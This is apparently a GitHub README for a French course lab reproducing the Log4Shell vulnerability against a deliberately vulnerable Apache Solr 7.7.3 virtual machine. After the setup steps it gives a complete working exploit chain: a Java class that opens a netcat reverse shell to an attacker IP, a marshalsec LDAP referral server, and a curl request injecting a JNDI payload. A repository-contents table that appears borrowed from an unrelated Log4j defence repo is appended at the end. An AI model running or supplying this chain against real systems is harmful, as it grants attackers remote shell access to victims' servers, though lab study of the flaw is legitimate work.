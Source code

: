 # ENI Veille SSI Log4Shell

Pour réalisez l'attaque présente dans la vidéo, vous devez créer 2 machines virtuels

Dans le première machine qui sera celle de la victime, vous devrez installer une version vulnérable de Solr

## 1. Install Java on victim
Install Java.
```
$ sudo apt install default-jdk -y
```
Verify the Java installation.
```
$ java -version
```
Download Solr :
```
wget https://archive.apache.org/dist/lucene/solr/7.7.3/solr-7.7.3-src.tgz 
```

Install Apache Solr.
```
$ sudo bash solr-7.7.3/bin/install_solr_service.sh solr-7.7.3-src.tgz 
```
Check the status of the Apache Solr service.

```
$ sudo systemctl status solr
```
Enable the Apache Solr service to start on system boot.
```
$ sudo systemctl enable solr
```
Allow port 8983 through the UFW firewall.
```
$ sudo ufw allow 8983
```
To access the Apache Solr web interface, go to your browser and enter http://serverIP:8983.

## 2 Prepare attack :

The first order of business however is obtaining the LDAP Referral Server. We will use the marshalsec utility offered at https://github.com/mbechler/marshalsec

## exploit java :
```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Compiler le code java :
```
javac Exploit.java -source 8 -target 8
```

## Attack

Création du serveur python :
```
python3 -m http.server
```

Prepare a netcat listener on any port of your choosing :

```
nc -lnvp 4444
````
Execut ldap server :
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

Attack :
```
curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```

## Repository contents

| Directory                          | Purpose |
|:-----------------------------------|:--------|
| [hunting](hunting/README.md)       | Contains info regarding hunting for exploitation |
| [iocs](iocs/README.md)             | Contains any Indicators of Compromise, such as scanning IPs, etc |
| [detection & mitigation](detection_mitigation/README.md)   | Contains info regarding detection and mitigation, such as regexes for detecting scanning activity and more |
| [scanning](scanning/README.md)     | Contains references to methods and tooling used for scanning for the Log4j vulnerability |
| [software](software/README.md)     | Contains a list of known vulnerable and not vulnerable software |
| [tools](tools/README.md)           | Contains a list of tools for automatically parsing info on this repo |

